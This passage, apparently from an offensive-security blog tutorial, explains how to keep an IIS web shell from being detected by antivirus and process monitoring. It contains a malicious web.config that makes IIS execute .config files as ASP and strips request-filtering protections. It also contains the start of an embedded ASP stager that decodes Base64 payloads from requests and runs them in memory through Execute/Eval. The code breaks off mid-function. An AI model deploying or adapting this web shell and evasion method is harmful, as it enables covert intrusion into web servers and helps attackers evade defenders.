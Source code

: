 ```
As expected, after execution the file is created:

![post02-11](/images/post02-11.png)

Now, back to process monitor.. if we filter only "Process Create" operations and run our web shell again, we get 0 results:

![post02-12](/images/post02-12.png)

Now, you may think that we are done.. **but we are not.** (cry face)

Remember from "Step 2" that some AVs may create detection based on the usage and pattern of known malicious files and scripts?

![post02-13](/images/post02-13.png)

We could try to apply what I've showed so far, but let's learn another useful technique to avoid detection.

### Can you pls execute my code sir?

Sometimes the best way to avoid detection is to use something that is not malicious at all. Our payload has multiple objects to functions that reveal our intend, from the moment we drop it on disk we give a chance for security solutions to trigger detections and even permit responders to act on it. 

So let's create something that will serve as a stager for our payload, the easiest way to achieve this is to have enough code to receive and execute our code directly into memory.

Since we are using classic ASP, we can receive our payload using the "Request()" function, decode it's Base64 content and execute with a combination of "Execute()" and "Eval()".

{% highlight visual basic %}
<?xml version="1.0" encoding="UTF-8"?><configuration><system.webServer><handlers accessPolicy="Read, Script, Write"><add name="new_policy" path="*.config" verb="GET,POST" modules="IsapiModule" scriptProcessor="%windir%\system32\inetsrv\asp.dll" resourceType="Unspecified" requireAccess="Write" preCondition="bitness64" /></handlers><security><requestFiltering><fileExtensions><remove fileExtension=".config" /></fileExtensions><hiddenSegments><remove segment="web.config" /></hiddenSegments></requestFiltering></security></system.webServer><appSettings></appSettings></configuration>
<!–-
<% 
Dim mom
mom = Split("a,b,c,d,e,f,g,h,i,j,k,l,m,n,o,p,q,r,s",",")

Private Function sbts(Binary)
  Const adt = 2
  Const atdb = 1
  Dim bs
  Set bs = CreateObject("ADODB.Stream")
  bs.Type = atdb
  bs.Open
  bs.Write Binary
  bs.Position = 0
  bs.Type = adt
  bs.CharSet = "us-ascii"
  sbts = bs.ReadText
  Set bs = Nothing
End Function

Function bd6(ByVal vCode)
    Dim oXML, oNode
    Set oXML = CreateObject("Msxml2.DOMDocument.3.0")
    Set oNode = oXML.CreateElement("base64")
```